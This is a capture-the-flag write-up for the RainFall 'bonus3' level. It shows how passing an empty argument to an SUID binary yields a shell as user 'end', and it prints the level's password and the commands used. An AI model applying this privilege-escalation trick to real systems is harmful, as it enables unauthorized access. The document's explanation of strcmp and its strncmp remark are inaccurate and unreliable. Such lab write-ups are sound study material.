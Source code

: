 # Level bonus 3

## Vulnerability

```strcmp()``` with empty argument

## Context

We find a binary with owner ```end``` and SUID.
```
bonus3@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
```
When run with 1 argument, it prints a new line. Run with 0 or >1 arguments it does nothing.
```
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ ./bonus3 Yes!

bonus3@RainFall:~$ ./bonus3 No no
bonus3@RainFall:~$ ./bonus3 No no no
bonus3@RainFall:~$
```

## Solution

In summary, if you give the password for user ```end``` as argument to ```bonus3```, it opens a shell (well actually it segfaults).

But we don't know the password yet so...

Investigating with gdb we find just ```main()```. ```main()``` opens ```/home/user/end/.pass``` and copies the password into a buffer twice. Then ```strcmp()``` compares the buffer and argv[1], opening a shell if you have provided the matching password. However ```strcmp()``` will only read and compare as many bytes as len(argv[1]), so if we provide an empty string ```strcmp()``` returns 0, claiming the password and empty string are the same (for as many bytes as read - 0).
```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
end@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
```
Maybe should have used ```strncmp()``` instead of ```strcmp()```.

Anways Congratulations graduate!
